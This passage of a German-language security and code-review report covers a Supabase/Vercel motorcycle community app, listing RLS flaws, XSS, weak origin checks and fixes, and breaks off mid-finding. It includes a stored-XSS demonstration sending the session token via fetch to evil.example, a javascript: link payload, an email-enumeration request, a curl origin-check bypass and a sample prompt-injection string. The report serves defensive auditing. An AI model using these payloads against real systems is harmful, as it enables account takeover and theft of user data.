**Warum das ein Problem ist:** Drei Dinge treffen zusammen. `SECURITY DEFINER` umgeht RLS und liest `auth.users`. `ILIKE` behandelt `%` und `_` als Platzhalter. Und `GRANT … TO anon` heißt: **ohne jedes Konto**, mit dem im Bundle stehenden Anon-Key. Ein Aufruf mit `uname = '%'` liefert die E-Mail irgendeines Nutzers; mit `'a%'`, `'b%'`, … lässt sich der Bestand systematisch abräumen. Der Kommentar darüber nennt die Funktion „genau diesen einen kontrollierten Lesezugriff" — kontrolliert ist daran nichts.

Reproduktion (nicht ausgeführt — würde echte Nutzerdaten abrufen):
```
POST https://<projekt>.supabase.co/rest/v1/rpc/email_for_username
apikey: <anon-key aus dem Bundle>
{"uname": "%"}
```

**Empfohlener Fix:** Exakter, case-insensitiver Vergleich statt Musterabgleich, und `anon` verliert das Recht nicht — es braucht es für den Login-Bildschirm. Der Schutz liegt im exakten Match:
```sql
CREATE OR REPLACE FUNCTION email_for_username(uname text)
RETURNS text LANGUAGE sql SECURITY DEFINER SET search_path = public AS $$
  SELECT au.email FROM auth.users au JOIN profiles p ON p.id = au.id
  WHERE lower(p.username) = lower(uname) LIMIT 1
$$;
```
Besser noch: gar keine E-Mail zurückgeben, sondern den Login serverseitig in einer Function erledigen. Für die Beta reicht `lower() = lower()`. **Aufwand: S**

#### 3.2 Jeder Angemeldete kann in jeden fremden DM-Thread schreiben — P0
*Weil fremde Personen in privaten Unterhaltungen auftauchen können und Blockieren wirkungslos ist.*

**Fundstellen:** `supabase/schema.sql:281-282`, ausgenutzt gegen `src/js/community-api.js:1489-1497`

```sql
CREATE POLICY "msg_insert_dm" ON messages FOR INSERT
  WITH CHECK (author_id = auth.uid() AND dm_thread IS NOT NULL);
```

**Warum das ein Problem ist:** Die Policy prüft, *wer* schreibt, aber nicht *wohin*. `dm_thread` ist ein freier String `"uidA:uidB"`, und `auth.uid()` muss darin nicht vorkommen. Nutzer C kann also `{dm_thread: "A:B", author_id: C, text: "…"}` einfügen. A und B sehen die Nachricht (`msg_select_dm:266-272` erlaubt beiden den Lesezugriff), C selbst nicht.

Das hebelt zugleich zwei Funktionen aus, die es im Client gibt:
- `community-api.js:1478,1497` — `if (blockedByRecipient) return`: Blockieren ist **nur** diese eine Client-Zeile.
- `community-api.js:1468-1473` — `canSendDM()` liest `dm_policy` aus dem Profil-Cache. Auch nur im Client.

Und über `api/push-trigger.js:61-70` wird daraus eine Push-Benachrichtigung mit frei wählbarem Text auf dem Handy des Opfers.

**Empfohlener Fix:** Teilnahme in der Policy erzwingen, mit derselben `LIKE`-Logik wie beim Lesen, plus Block-Prüfung:
```sql
DROP POLICY IF EXISTS "msg_insert_dm" ON messages;
CREATE POLICY "msg_insert_dm" ON messages FOR INSERT WITH CHECK (
  author_id = auth.uid()
  AND dm_thread IS NOT NULL
  AND (dm_thread LIKE auth.uid()::text || ':%' OR dm_thread LIKE '%:' || auth.uid()::text)
  AND NOT EXISTS (
    SELECT 1 FROM blocks b
    WHERE b.blocked = auth.uid()
      AND dm_thread LIKE '%' || b.blocker::text || '%'
  )
);
```
Dieselbe Teilnahmeprüfung fehlt in `msg_update:283-288` — dort kann der Autor sein `dm_thread` nachträglich auf einen fremden Thread umschreiben. Auch dort `WITH CHECK` ergänzen. **Aufwand: S**

#### 3.3 `join_mode` und Gruppensperren existieren nur im Client — P0
*Weil private Gruppen nicht privat sind und gesperrte Nutzer einfach zurückkommen.*

**Fundstellen:** `supabase/schema.sql:144-149`, Client-Prüfung in `src/js/community-api.js:1026-1027`

```sql
CREATE POLICY "gm_insert" ON group_members FOR INSERT WITH CHECK (user_id = auth.uid());
CREATE POLICY "gm_insert_mod" ON group_members FOR INSERT
  WITH CHECK (EXISTS (SELECT 1 FROM group_members gm WHERE … gm.role IN ('owner','mod')));
```

**Warum das ein Problem ist:** Postgres verknüpft mehrere permissive Policies desselben Kommandos mit **ODER**. `gm_insert` allein genügt also — „ich trage mich selbst ein" ist immer erlaubt. Weder `groups.join_mode` (`'open' | 'request' | 'invite'`) noch `group_bans` kommen in irgendeiner Policy vor. Die einzige Prüfung steht im Browser:

```js
// community-api.js:1026-1027
if (isGroupBanned(g, _myUsername)) return { ok: false, error: 'Du wurdest … gesperrt.' }
if (g.members.includes(_myUsername)) return { ok: false, error: 'Du bist bereits Mitglied.' }
```

Damit sind `banMember` (`:1055`), der komplette Beitrittsanfragen-Ablauf (`group_join_requests`) und die Einladungscodes reine Zierde. Da `groups_select_public:103` alle Gruppen öffentlich listet, sind Gruppen-IDs auch nicht geheim.

**Empfohlener Fix:**
```sql
DROP POLICY IF EXISTS "gm_insert" ON group_members;
CREATE POLICY "gm_insert_self" ON group_members FOR INSERT WITH CHECK (
  user_id = auth.uid()
  AND role = 'member'
  AND EXISTS (SELECT 1 FROM groups g WHERE g.id = group_id AND g.join_mode = 'open')
  AND NOT EXISTS (SELECT 1 FROM group_bans b WHERE b.group_id = group_members.group_id AND b.user_id = auth.uid())
);
```
Für `request`/`invite` gehört der Beitritt in eine `SECURITY DEFINER`-Funktion, die die Anfrage bzw. den Code prüft und dann einfügt — dann kann der Client den Weg nicht abkürzen. **Aufwand: M**

#### 3.4 Alle Einladungscodes sind für alle lesbar und änderbar — P0
*Weil damit jede „invite-only"-Gruppe offen ist und jeder fremde Codes entwerten kann.*

**Fundstellen:** `supabase/schema.sql:335`, `:341`; aktiv ausgenutzt durch `src/js/community-api.js:348-359`

```sql
CREATE POLICY "invites_select" ON invites FOR SELECT USING (true);
CREATE POLICY "invites_update" ON invites FOR UPDATE USING (true);
```

**Warum das ein Problem ist:** `USING (true)` heißt jeder, einschließlich `anon`. Und der Client tut es sogar von sich aus — beim Start lädt jeder Nutzer sämtliche Codes in den Speicher:
```js
// community-api.js:349
const { data } = await supabase.from('invites').select('*')
```
Bei `UPDATE` ohne `WITH CHECK` gilt der `USING`-Ausdruck auch als Prüfung für die neue Zeile: jeder kann `max_uses`, `expires_at` oder `group_id` einer fremden Einladung überschreiben. `redeemInvite:1416` zählt `uses` ohnehin im Browser hoch — zwei gleichzeitige Einlösungen zählen einmal.

**Empfohlener Fix:**
```sql
DROP POLICY IF EXISTS "invites_select" ON invites;
DROP POLICY IF EXISTS "invites_update" ON invites;
CREATE POLICY "invites_select_own" ON invites FOR SELECT USING (
  EXISTS (SELECT 1 FROM group_members WHERE group_id = invites.group_id
          AND user_id = auth.uid() AND role IN ('owner','mod')));
```
Das Einlösen darf dann nicht mehr per `select` laufen, sondern über eine `SECURITY DEFINER`-Funktion `redeem_invite(code text)`, die prüft, `uses` atomar erhöht und die Mitgliedschaft anlegt. Anschließend `_loadInvites()` (`community-api.js:348`) auf die eigenen Gruppen einschränken. **Aufwand: M**

#### 3.5 Kontolöschung ist nicht implementiert, der Knopf verspricht es trotzdem — P0
*Weil Art. 17 DSGVO technisch nicht erfüllbar ist und die Oberfläche etwas Falsches behauptet.*

**Fundstellen:** `src/js/auth.js:535-544`, `src/js/account.js:1822-1824`, `src/js/account.js:1930-1936`

```js
// auth.js:538-543
if (!OFFLINE_MODE) {
  // Echtes Löschen … erfordert den Supabase Service-Role-Key … noch kein Backend-Endpunkt.
  await logout()
  return { ok: false, error: 'Konto-Löschung ist in der Beta noch nicht verfügbar. …' }
}
```
```html
<!-- account.js:1823-1824 -->
<button class="acc-danger-btn" id="acc-delete-account">Konto endgültig löschen</button>
<p class="acc-danger-note">Löscht dein Konto unwiderruflich — du wirst automatisch abgemeldet.</p>
```

**Warum das ein Problem ist:** Der Nutzer bestätigt „endgültig löschen", wird abgemeldet, sieht eine Fehlermeldung — und sein Konto existiert weiter. Das ist gleichzeitig eine kaputte Funktion, eine irreführende Aussage und eine nicht erfüllte DSGVO-Pflicht.

**Empfohlener Fix:** `api/delete-account.js` nach dem Muster von `api/livekit-token.js`: Bearer-Token prüfen, dann mit dem Service-Role-Key `supabase.auth.admin.deleteUser(uid)`. Die `ON DELETE CASCADE`-Ketten in `schema.sql` räumen den Rest ab; zusätzlich die Storage-Objekte unter `<uid>/` im Bucket `chat-attachments` löschen. **Aufwand: M**

#### 3.6 E-Mail-Adressen werden nicht verifiziert — jeder kann ein Konto auf eine fremde Adresse anlegen — P1
*Weil sich damit Konten auf fremde Namen besetzen lassen und der Passwort-Reset zur Waffe wird.*

**Nachgeprüft** (`GET /auth/v1/settings` des Projekts):
```json
{ "mailer_autoconfirm": true, "disable_signup": false,
  "external": { "email": true, "google": true, "apple": false } }
```

`mailer_autoconfirm: true` heißt: **die Bestätigungsmail ist abgeschaltet**, jede Registrierung gilt sofort als verifiziert. Wer `max.mustermann@firma.de` einträgt, hat ein Konto auf diese Adresse — ohne Zugriff darauf. Der eigentliche Inhaber kann sich anschließend nicht mehr registrieren („E-Mail bereits verwendet", `auth.js:354`), und `requestPasswordReset` (`auth.js:515`) schickt ihm Reset-Links für ein Konto, das er nie angelegt hat.

Das ist für eine geschlossene Beta unter Bekannten vertretbar. Für eine öffentliche nicht.

**Empfohlener Fix — aber in dieser Reihenfolge:** Das Einschalten von „Confirm email" allein macht die Registrierung kaputt, denn dann greift der Fehler unten. Also **erst** 3.6b, **dann** den Schalter umlegen.

#### 3.6b Die Profilanlage hängt an einer Session, die es nicht immer gibt — P1
*Weil sie in dem Moment bricht, in dem du die E-Mail-Bestätigung einschaltest.*

**Fundstelle:** `src/js/auth.js:351-375`

```js
const { data, error } = await supabase.auth.signUp({ email, password })
…
if (data.session) await supabase.auth.setSession(data.session)      // :361
const { error: profErr } = await supabase.from('profiles').insert({ // :364 — läuft IMMER
  id: uid, username, bio: DEFAULT_PROFILE.bio,
})
```

**Warum das ein Problem ist:** Bei aktivierter Bestätigung liefert `signUp` **keine Session**. Zeile 361 wird übersprungen, Zeile 364 läuft trotzdem — mit `auth.uid() = NULL`. Die Policy `profiles_insert WITH CHECK (id = auth.uid())` (`schema.sql:26`) blockt, und der Nutzer bekommt `profErr.message` zu sehen: eine rohe englische Postgres-Meldung.

Heute fällt das nicht auf, weil `mailer_autoconfirm: true` immer eine Session zurückgibt (3.6). Es ist eine Falle, die genau dann zuschnappt, wenn du das Richtige tust.

**Empfohlener Fix:** Profilanlage in einen `AFTER INSERT`-Trigger auf `auth.users` verlegen (`SECURITY DEFINER`), den Benutzernamen als `raw_user_meta_data` an `signUp` übergeben:
```sql
CREATE OR REPLACE FUNCTION handle_new_user() RETURNS trigger
LANGUAGE plpgsql SECURITY DEFINER SET search_path = public AS $$
BEGIN
  INSERT INTO profiles (id, username)
  VALUES (NEW.id, COALESCE(NEW.raw_user_meta_data->>'username', 'user_' || left(NEW.id::text, 8)));
  RETURN NEW;
END $$;
CREATE TRIGGER on_auth_user_created AFTER INSERT ON auth.users
  FOR EACH ROW EXECUTE FUNCTION handle_new_user();
```
Dann hängt die Profilanlage nicht mehr an einer Client-Session — und der Bestätigungs-Schalter kann gefahrlos an. **Aufwand: M**

#### 3.7 Passwort-Mindestlänge 4 — P1
*Weil es unter jedem vertretbaren Maß liegt und zusätzlich mit Supabase kollidiert.*

**Fundstellen:** `src/js/auth.js:340`, `:486`, `:527`; UI: `auth.js:647`, `community.js:635` (`minlength="4"`)

```js
if ((password || '').length < 4) return { ok: false, error: 'Passwort muss mindestens 4 Zeichen haben.' }
```

Supabase erzwingt standardmäßig 6. Ein 4-Zeichen-Passwort passiert die Client-Prüfung, scheitert am Server und landet über `auth.js:355` als englische Rohmeldung im deutschen Formular.

**Fix:** Auf 8 anheben, an allen fünf Stellen konsistent, und die Supabase-Einstellung auf denselben Wert setzen. **Aufwand: S**

#### 3.8 `.ilike()` für Namensvergleiche behandelt `_` als Platzhalter — P2

**Fundstellen:** `src/js/auth.js:346`, `:462`, `src/js/community-api.js:1626`, `:1798`

```js
const { data: existing } = await supabase.from('profiles').select('id').ilike('username', username).maybeSingle()
```

Der Benutzername `max_1` matcht per `ILIKE` auch `maxx1` und `max-1`. Ergebnis: „Dieser Benutzername ist bereits vergeben", obwohl er frei ist. Umgekehrt findet `sendFriendRequest` mit der Eingabe `%` einen beliebigen Nutzer. Zusätzlich wirft `.maybeSingle()` bei mehreren Treffern einen Fehler, der hier nur destrukturiert und nicht geprüft wird.

**Fix:** `.eq('username', name)` mit einer `citext`-Spalte oder einem funktionalen Unique-Index auf `lower(username)`. **Aufwand: S**

---

### 4 — Sicherheit

#### 4.1 Stored XSS über `profiles.avatar_color` an 20 Stellen — P0
*Weil die Supabase-Session in `localStorage` liegt und damit jede Codeausführung eine Kontoübernahme ist.*

**Fundstellen:** `src/js/community.js:900, 1030, 1476, 1740, 2431, 2555, 2573, 2614, 2715, 3474, 3720, 3790, 4014, 4029, 4051, 4070, 4563, 4755, 4812, 4954`
Quelle: `src/js/community.js:104-107` · Schreibweg: `src/js/community.js:3921` · Spalte: `supabase/schema.sql:14`

```js
// community.js:104-107
function avatarColor(username) {
  const p = getProfile(username)
  return p.avatarColor || colorFor(username)   // p.avatarColor = profiles.avatar_color, roh
}
// community.js:900 — kein esc()
<div class="mmc-avatar mmc-avatar--sm …" style="background:${avatarColor(msg.author)}">
```

**Warum das ein Problem ist:** `avatar_color` ist eine `text`-Spalte ohne `CHECK` (`schema.sql:14`), und `profiles_update` (`schema.sql:27`) erlaubt jedem, die eigene Zeile zu ändern. Dass die Oberfläche nur Farbfelder anbietet (`community.js:3722`), ist bedeutungslos — der Anon-Key steht im Bundle, die Spalte ist per REST direkt beschreibbar. `supabase.js:18` setzt `persistSession: true`, das Zugriffstoken liegt also unter `sb-<ref>-auth-token` in `localStorage`.

Ausgeführte Demonstration der Ausgabe (`node scratchpad/xss-check.mjs`):
```
1) style-Attribut OHNE esc (community.js:900):
   <div class="mmc-avatar" style="background:red" onmouseover="fetch('//evil.example/?t='+localStorage.getItem('sb-x-auth-token'))" x="">AB</div>

3) Gegenprobe, dieselbe Farbe MIT esc:
   <div style="background:red&quot; onmouseover=&quot;fetch(&#39;…&#39;)&quot; x=&quot;">AB</div>
```
Der Angriff braucht keine Interaktion: es genügt, dass jemand eine Nachricht des Angreifers im Chat sieht und die Maus darüber bewegt. Über `_loadProfiles()` (`community-api.js:144`) landet die Farbe bei **allen** Nutzern im Cache, auch ohne gemeinsame Gruppe.

**Empfohlener Fix:** Zwei Ebenen, beide nötig.

1. Im Client, an allen 20 Stellen: `style="background:${esc(avatarColor(x))}"`. Sauberer: `avatarColor()` selbst filtern:
```js
function avatarColor(username) {
  const raw = getProfile(username).avatarColor || ''
  return /^(#[0-9a-f]{3,8}|hsl\([\d\s%.,]+\)|rgb\([\d\s%.,]+\))$/i.test(raw) ? raw : colorFor(username)
}
```
2. In der Datenbank, damit es nicht wiederkommt:
```sql
ALTER TABLE profiles ADD CONSTRAINT avatar_color_fmt
  CHECK (avatar_color IS NULL OR avatar_color ~ '^(#[0-9a-fA-F]{3,8}|hsl\([0-9 ,.%]+\))$');
```
Danach prüfen, ob bereits Zeilen mit abweichenden Werten existieren. **Aufwand: M**

#### 4.2 `esc()` filtert `javascript:` nicht — XSS über Anhang-URLs — P1
*Weil ein Klick auf eine Datei-Karte fremden Code ausführt.*

**Fundstelle:** `src/js/community.js:1190`, Quelle `supabase/schema.sql:225` (`attachment jsonb`)

```js
<a class="mmc-msg-file" href="${esc(att.url)}" download="${esc(name)}" title="…">
```

`att.url` stammt aus `messages.attachment` — einer jsonb-Spalte, deren Inhalt die Policy `msg_insert_channel`/`msg_insert_dm` nicht prüft. Der Autor kann `{"url":"javascript:…","name":"Rechnung.pdf","type":"application/pdf"}` einfügen. `esc()` maskiert `<>&"'`, aber kein Schema:

```
2) href MIT esc (community.js:1190):
   <a href="javascript:alert(document.cookie)" download="x">Datei</a>
```

**Warum das ein Problem ist:** Nicht so schwer wie 4.1 (braucht einen Klick), aber es sieht aus wie eine harmlose Datei-Karte mit Dateinamen und Größe.

**Fix:** In `attachmentHtml()` das Schema prüfen, bevor gerendert wird:
```js
const safe = /^(https?:|data:image\/)/i.test(att.url || '')
if (!safe) return ''
```
Zusätzlich `esc()` in `util.js:2` um eine `safeUrl()`-Schwester ergänzen und überall dort verwenden, wo eine URL in ein `href` geht. **Aufwand: S**

#### 4.3 Origin-Prüfung und Rate-Limit halten nicht — die KI-Keys sind ein offener Proxy — P0
*Weil daraus direkt ungedeckelte Rechnungen auf deine Karte werden.*

**Fundstellen:** `api/_shared.js:1-57`, wirksam für `api/ai-match.js:15`, `api/search-places.js:15`, `api/livekit-token.js:17`

```js
const hits = new Map();                                     // :4
if (allowed.length === 0 || !allowed.includes(origin)) {    // :29
  res.status(403).json({ error: "Forbidden origin" });
```

**Zwei unabhängige Löcher:**

1. **Der `Origin`-Header ist keine Authentifizierung.** Browser setzen ihn und lassen ihn nicht ändern — jeder andere HTTP-Client setzt ihn frei.
2. **`hits` ist eine Map im Lambda-Prozess.** Vercel startet Instanzen nach Bedarf und friert sie ein. Jede neue Instanz beginnt bei null; parallele Anfragen landen auf verschiedenen Instanzen. Das Limit von 10/Minute gilt pro Instanz, nicht pro IP.

**Live reproduziert** gegen den lokalen Dev-Server (`npx vite --port 5199`):
```
$ curl -s -X POST http://localhost:5199/api/ai-match -H 'Content-Type: application/json' -d '{}'
{"error":"Forbidden origin"} [403]

$ curl -s -X POST http://localhost:5199/api/ai-match -H 'Content-Type: application/json' \
       -H 'Origin: http://localhost:5199' -d '{"answers":{},"bike":{}}'
{"explanation":"Leider benötige ich mehr Informationen, um ein passendes Motorrad …"} [200]
```
Ein einziger zusätzlicher Header, und der Aufruf geht an OpenAI durch. In Produktion steht statt `localhost:5199` der Wert aus `ALLOWED_ORIGINS` — der ist öffentlich, es ist deine Domain.

> Hinweis: dieser eine Aufruf hat echte OpenAI-Token verbraucht (Bruchteile eines Cents). Es war der einzige.

**Empfohlener Fix:** In dieser Reihenfolge, die ersten beiden sind schnell:
1. **Hartes Ausgabenlimit** in den OpenAI- und Tavily-Dashboards — die einzige Maßnahme, die auch bei allen anderen Fehlern greift.
2. **Beide Endpunkte hinter eine Supabase-Session hängen**, exakt wie `api/livekit-token.js:41-56` es bereits vormacht. Damit kostet Missbrauch mindestens ein Konto.
3. **Rate-Limit persistent machen** — eigene Tabelle `api_usage(user_id, window_start, count)` in Postgres oder Vercel KV. Pro Nutzer und Tag, nicht pro IP und Minute.

Den `Origin`-Check kannst du behalten, aber nicht als Schutz zählen. **Aufwand: M**

#### 4.4 Kein Eingabeschema, unbegrenzte Prompt-Länge — P1

**Fundstellen:** `api/ai-match.js:27-40`, `api/search-places.js:27`

```js
const { answers, bike } = req.body;
const prompt = `Nutzer-Profil:
- Führerschein: ${answers.license}
…
Empfohlenes Motorrad: ${bike.name} (${bike.brand}, …)`
```

Kein Feld wird geprüft — nicht auf Vorhandensein, nicht auf Typ, nicht auf Länge. Ein 200-KB-String in `answers.style` geht 1:1 in den Prompt. `max_tokens: 60` begrenzt nur die Antwort; bezahlt werden auch Eingabe-Token. Zusätzlich klassische Prompt-Injection: `answers.style = "Ignoriere alles davor und …"`.

Fehlt `answers` ganz, wirft `answers.license` — der `catch` in `:72` antwortet mit `err.message`, also einer internen TypeError-Meldung.

**Fix:** Am Anfang des Handlers:
```js
const s = v => typeof v === 'string' ? v.slice(0, 60) : ''
const { answers = {}, bike = {} } = req.body || {}
if (!bike.name) return res.status(400).json({ error: 'bike.name fehlt' })
```
und alle Interpolationen über `s()`. **Aufwand: S**

#### 4.5 Upstream-Fehlertexte gehen an den Client — P2

**Fundstellen:** `api/ai-match.js:66`, `api/search-places.js:49`, `api/ai-match.js:74`

```js
return res.status(500).json({ error: `OpenAI error: ${err}` });
```
`err` ist der rohe Antworttext von OpenAI — kann Organisations-IDs, Kontingentdetails und Request-IDs enthalten. `:74` gibt zusätzlich `err.message` interner Ausnahmen heraus.

**Fix:** Nach außen `{ error: 'Empfehlung derzeit nicht verfügbar' }`, das Detail nur nach Sentry (`report()` ist bereits da). **Aufwand: S**

#### 4.6 `beta_feedback` ist anonym und unbegrenzt beschreibbar — P1

**Fundstelle:** `supabase/schema.sql:438-439`, Schreibweg `src/js/feedback.js:257`

```sql
CREATE POLICY "bf_insert_auth" ON beta_feedback FOR INSERT
  WITH CHECK (user_id = auth.uid() OR user_id IS NULL);
```

Mit `user_id = NULL` darf `anon` einfügen — ohne Konto, ohne Limit, ohne CAPTCHA. Ein Skript füllt die Tabelle in Minuten. Nebenbei speichert `feedback.js:257` `navigator.userAgent` und den Pfad; in Verbindung mit `user_id` sind das personenbezogene Daten, die in der Datenschutzerklärung nicht vorkommen.

**Fix:** Anonymes Feedback streichen (`WITH CHECK (user_id = auth.uid())`) — die Beta ist ohnehin für angemeldete Tester. Zusätzlich `CHECK (length(text) BETWEEN 20 AND 2000)` und ein partieller Unique-Index gegen Dubletten. **Aufwand: S**

#### 4.7 `push-trigger` ohne Rate-Limit und mit nicht zeitkonstantem Secret-Vergleich — P2

**Fundstelle:** `api/push-trigger.js:23-31`

```js
if (!WEBHOOK_SECRET || req.headers["x-webhook-secret"] !== WEBHOOK_SECRET) {
```
`!==` auf Strings bricht beim ersten unterschiedlichen Byte ab — theoretisch über die Antwortzeit angreifbar. Praktisch relevanter: `checkOriginAndRate` wird hier bewusst nicht aufgerufen (Kommentar `:16-18`), es gibt also **gar kein** Limit. Wer das Secret hat, kann unbegrenzt Pushes auslösen; jeder Aufruf verursacht mehrere Service-Role-Abfragen, die RLS umgehen.

Positiv, und ausdrücklich richtig gelöst: die serverseitige Nachvalidierung von `record.mentions` gegen `group_members` (`:79-89`). Genau so gehört es.

**Fix:** `crypto.timingSafeEqual` und ein einfaches Limit pro `record.author_id`. **Aufwand: S**

#### 4.8 Klartext-Passwörter in `localStorage` im Offline-Modus — P1
*Weil eine fehlende Umgebungsvariable in Produktion still in diesen Modus fällt.*

**Fundstellen:** `src/js/auth.js:388`, `:323`, ausgelöst durch `src/js/supabase.js:13`

```js
// auth.js:388
const user = { ...DEFAULT_PROFILE, username, password, name: username, email, … }
// auth.js:323
if (!u || u.password !== password) return { ok: false, error: '…' }
```

Für sich genommen ein bewusster Demo-Kompromiss. Das Problem ist die Auslösebedingung:
```js
// supabase.js:13
export const OFFLINE_MODE = !url || !key
```
Fehlt `VITE_SUPABASE_URL` beim Produktions-Build, **scheitert nichts** — die App startet, protokolliert `console.info('… Demo-Modus …')` und speichert Passwörter im Klartext im Browser des Nutzers. `.env.production.local` zeigt, dass genau solche Lücken bei dir vorkommen.

**Fix:** In Produktion laut scheitern:
```js
if (OFFLINE_MODE && import.meta.env.PROD) {
  throw new Error('MotoMatch: VITE_SUPABASE_URL / _ANON_KEY fehlen im Produktions-Build.')
}
```
Und die Passwörter im Demo-Modus gar nicht speichern (Session-Flag statt Vergleich). **Aufwand: S**

#### 4.9 Datenimport schreibt beliebige `mm_*`-Schlüssel — P2

**Fundstelle:** `src/js/account.js:1985-2002`

```js
Object.entries(data.keys).forEach(([k, v]) => {
  if (k.startsWith('mm_')) localStorage.setItem(k, v)
})
```

Der Präfix-Check ist die einzige Prüfung. Eine präparierte Backup-Datei kann `mm_auth_session_v1`, `mm_auth_users_v1` und `mm_comm_profile_v1` setzen — letzteres ist im Offline-Modus die Quelle für `avatarColor` und damit ein Selbst-XSS über den Weg aus 4.1. Der Export (`:1968-1982`) gibt umgekehrt **alle** `mm_*`-Schlüssel heraus, inklusive der Klartext-Passwörter aus 4.8.

**Fix:** Erlaubte Schlüssel als Allowlist führen (Favoriten, Fahrten, Wartung, Vergleich), Auth- und Community-Caches beim Export wie beim Import ausschließen. **Aufwand: S**

#### 4.10 Vollständige Mitgliederlisten und Profile sind öffentlich — P2

**Fundstellen:** `supabase/schema.sql:25` (`profiles_select USING (true)`), `:143` (`gm_select USING (true)`), `:103` (`groups_select_public USING (true)`)

Mit dem Anon-Key aus dem Bundle lässt sich ohne Konto der komplette Nutzerbestand samt Bio, Statustext und base64-Avatar abziehen — und über `group_members` genau rekonstruieren, wer in welcher Gruppe ist. Für eine Motorrad-Community sind das Bewegungs- und Interessendaten.

**Fix:** `profiles_select` auf angemeldete Nutzer einschränken und `avatar` aus der Standardauswahl nehmen (`community-api.js:144` nutzt `select('*')`); `gm_select` auf Mitglieder plus offene Gruppen begrenzen, analog zu `channels_select:169-174`. **Aufwand: M**

#### 4.11 Abhängigkeiten mit bekannten Lücken — P3

`npm audit`: **23 Schwachstellen (20 moderate, 3 high)** — `nanoid`, `postcss`, `esbuild` über `vite`. Alle in `devDependencies`, also im Build und im Dev-Server, **nicht im ausgelieferten Bundle**. Realistisches Risiko gering; `npm audit fix` löst es nicht ohne Vite-Major-Sprung (5.4 → 8.2).

Relevanter: `@sentry/browser` und `@sentry/node` sind zwei Majors zurück (8.55 vs. 10.71).

**Fix:** Nach der Beta ein Wartungsfenster für Vite 8 und Sentry 10. **Aufwand: M**

---

### 5 — API-Design

#### 5.1 Kein einheitliches Fehlerformat, keine Versionierung, keine Idempotenz — P2

Die vier Endpunkte antworten auf Fehler mal mit `{error: "Forbidden origin"}`, mal mit `{error: "OpenAI error: <roher Text>"}`, mal mit `{skipped: true}`, mal mit `{sent: 3}` — vier verschiedene Formen. Erfolgsantworten haben ebenfalls kein gemeinsames Muster (`{explanation}`, `{items}`, `{token}`, `{sent}`).

Statuscodes sind teilweise falsch: `api/ai-match.js:23` antwortet `500`, wenn `OPENAI_KEY` fehlt — das ist zwar ein Serverfehler, aber ununterscheidbar von „OpenAI ist gerade kaputt". `api/search-places.js:49` gibt `500` für einen fehlgeschlagenen Upstream, wo `502` gemeint ist.

Kein `/api/v1/`-Präfix; ein Umbau bricht alte, im Cache liegende Clients.

**Fix:** Kleiner gemeinsamer Helper `ok(res, data)` / `fail(res, status, code)` in `_shared.js`, Fehler als `{ error: { code, message } }`. **Aufwand: S**

#### 5.2 Es fehlt ein Endpunkt, den das Frontend braucht — P0 (siehe 3.5)

`api/delete-account.js` gibt es nicht, `account.js:1930` ruft es faktisch aber auf.

#### 5.3 Ein positiver Befund: `api/livekit-token.js` ist richtig gebaut — kein Mangel

Es prüft das Bearer-Token gegen Supabase (`:53`), arbeitet bewusst mit dem Anon-Key **im RLS-Kontext des Nutzers** statt mit Service-Role (`:47-51`), validiert die Raum-ID gegen ein echtes UUID-Muster statt gegen eine Zeichenklasse (`:78-79`), prüft bei Direktanrufen sowohl Teilnahme als auch Freundschaft (`:85-96`), und spiegelt für Gruppenräume bewusst die `vr_select`-Policy. Die Kommentare erklären jeweils **warum**. Das ist das Muster, nach dem `ai-match` und `search-places` gebaut gehören.

Einzige Anmerkung: `ttl: "6h"` (`:113`) ist für einen Sprachraum lang. 1 h reicht, LiveKit erneuert von selbst.

---

### 6 — Frontend & State

#### 6.1 Kein State-Management — Modulvariablen als globaler Zustand — P2

**Fundstellen:** `src/js/community.js:750-769`

```js
let homeSection = 'friends'
let activeDM = null
let activeGroup = null
let activeChannel = null
let friendsMode = false
let replyingTo = null
let _voiceWatchers = {}
let _typingUsers = {}
```

Dazu `_rootRef` (`:857`) als gespeicherte DOM-Referenz und `_onVoiceWatchUpdate` (`:766`) als überschreibbarer Callback. Änderungen an diesem Zustand lösen kein Rendern aus — jede Stelle muss selbst daran denken, `renderApp()`, `fillMain()`, `fillRail()` oder `refreshFriendsChrome()` aufzurufen. `mountCommunity:516-517` setzt sechs davon von Hand zurück, weil sie den Tab-Wechsel sonst überleben.

**Warum das ein Problem ist:** Es funktioniert, aber jeder neue Bildschirm muss diese Liste kennen. Der Kommentar bei `resetNavState:771-775` beschreibt genau den Fehler, den das schon einmal verursacht hat (der neue Nutzer landete dort, wo der vorige aufgehört hatte).

**Fix:** Für die Beta nichts. Danach: die acht Variablen in ein `viewState`-Objekt mit einem `setViewState(patch)`, das das Rendern anstößt. **Aufwand: M**

#### 6.2 `innerHTML` als Render-Strategie, 163 Stellen — P2

`renderApp()` (`community.js:1776, 1791, 1811`) setzt `root.innerHTML` neu und bindet danach alle Listener erneut. Deshalb existieren `bindIconTooltips:1829` und `bindMsgLongPress:1877` mit `if (root._mmcTipBound) return` — Delegation am Root, weil alles darunter regelmäßig verschwindet.

Nebenwirkung: jedes Neuzeichnen verliert Scrollposition, Fokus und laufende Eingaben. `_appendMessageToGroupChat:865-1002` existiert nur, um das für neue Nachrichten zu umgehen — 140 Zeilen, die `renderMessagesInto()` für genau einen Fall duplizieren.

**Fix:** Nach der Beta. Die Duplikation zwischen `_appendMessageToGroupChat` (`:865`) und `_appendMessageToDMChat` (`:1005`) lässt sich sofort zusammenführen — die beiden Funktionen sind zu ~85 % identisch. **Aufwand: M**

#### 6.3 Ladezustände fehlen dort, wo es dauert — P2

`initCommunityData()` (`community-api.js:96-124`) lädt neun Abfragen parallel und kann bei etwas Datenmenge Sekunden brauchen. `mountCommunity:505` wartet darauf (`await initSupabaseAuth()`), zeigt in dieser Zeit aber nichts an — der Bereich bleibt leer.

Positiv dagegen: der Sticker-Picker (`community.js:1618`, „Lädt …"), das Geräte-Menü (`:2016`) und die Karte (`garage.js:857`, Spinner) haben saubere Zwischenzustände.

**Fix:** Skelett-Ansicht vor dem `await` in `mountCommunity`. **Aufwand: S**

---

### 7 — Fehlerbehandlung & Robustheit

#### 7.1 Optimistische Updates ohne Fehlerprüfung — das häufigste Muster im Code — P1
*Weil die Oberfläche Erfolg meldet, wo die Datenbank nichts gespeichert hat.*

**Fundstellen (28):** `src/js/community-api.js:961, 996, 1042, 1052, 1062, 1063, 1071, 1083, 1133, 1268, 1275, 1293, 1307, 1316, 1355, 1356, 1362, 1386, 1397, 1415, 1416, 1531, 1540, 1561, 1594, 1604, 1671, 1677, 1708, 1729, 1749`

Immer dasselbe Muster:
```js
// community-api.js:1046-1053  kickMember
g.members = g.members.filter(m => m.toLowerCase() !== username.toLowerCase())   // lokal weg
